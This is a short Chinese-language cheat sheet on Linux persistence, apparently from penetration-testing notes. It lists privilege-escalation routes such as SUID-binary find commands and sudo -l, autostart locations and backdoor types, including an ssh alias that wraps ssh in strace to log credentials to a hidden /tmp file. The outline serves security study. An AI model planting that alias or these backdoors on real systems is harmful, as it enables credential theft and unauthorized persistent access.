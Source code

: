 持久化 - Linux
========================================

权限提升
----------------------------------------
- 内核漏洞利用
- 攻击有root权限的服务
- 通过有SUID属性的可执行文件
    - 查找可能提权的可执行文件
    - ``find / -perm +4000 -ls``
    - ``find / -perm -u=s -type f 2>/dev/null``
    - ``find / -user root -perm -4000 -print 2>/dev/null``
    - ``find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null``
- 利用可用的root权限
    - ``sudo -l``
- 利用误配置的 crontab 任务

自启动
----------------------------------------
- /etc/init.d
- /etc/rc.d/rc.local

后门
----------------------------------------
- ssh 后门
    - ``alias ssh='strace -o /tmp/.ssh.log -e read,write,connect -s 2048 ssh'``
    - 后门账户
- 常见应用
    - ICMP
    - DNS
- icmp后门
- 后门端口复用
- ``.`` 开头隐藏文件
- rootkit
